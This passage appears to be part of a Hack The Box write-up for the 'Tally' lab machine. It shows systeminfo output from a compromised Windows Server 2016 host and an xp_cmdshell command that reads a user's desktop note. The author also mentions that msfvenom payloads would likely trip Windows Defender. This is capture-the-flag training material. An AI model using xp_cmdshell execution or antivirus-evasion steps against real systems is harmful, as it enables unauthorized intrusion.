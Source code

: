 	System Type:               x64-based PC   
	Processor(s):              2 Processor(s) Installed.    
	                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2600 Mhz       
	                           [02]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2600 Mhz    
	BIOS Version:              Phoenix Technologies LTD 6.00, 05/04/2016 
	Windows Directory:         C:\Windows                
	System Directory:          C:\Windows\system32       
	Boot Device:               \Device\HarddiskVolume1    
	System Locale:             en-gb;English (United Kingdom) 
	Input Locale:              en-gb;English (United Kingdom) 
	Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London                                               
	Total Physical Memory:     2,047 MB  
	Available Physical Memory: 231 MB                                                                            
	Virtual Memory: Max Size:  4,458 MB    
	Virtual Memory: Available: 657 MB                    

	Virtual Memory: In Use:    3,801 MB                  

	Page File Location(s):     C:\pagefile.sys           

	Domain:                    HTB.LOCAL                

	Logon Server:              \\TALLY       
	Hotfix(s):                 2 Hotfix(s) Installed. 
	                           [01]: KB3199986           

	                           [02]: KB4015217           

	Network Card(s):           1 NIC(s) Installed.  
	                           [01]: Intel(R) 82574L Gigabit Network Connection                                                   
	                                 Connection Name: Ethernet0  
	                                 DHCP Enabled:    No  
	                                 IP address(es)     
	                                 [01]: 10.10.10.59   
	                                 [02]: fe80::c5bc:7321:fb5d:9066
	                                 [03]: dead:beef::c5bc:7321:fb5d:9066  
                                                          

Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
{% endhighlight %}  

Perfect, apparently our compromised machine has as an operating system, Windows Server 2016.  
Which probably means that if we try to load a payload generated with msfvenom, it will be detected by Windows Defender. There is even a note on Sarah's desk that confirms that she enabled Windows Defender and also patched the system.

{% highlight zsh %}
1> xp_cmdshell 'type C:\Users\Sarah\Desktop\todo.txt';
2> go

done:

install updates
check windows defender enabled

outstanding:

update intranet design
update server inventory
{% endhighlight %}  
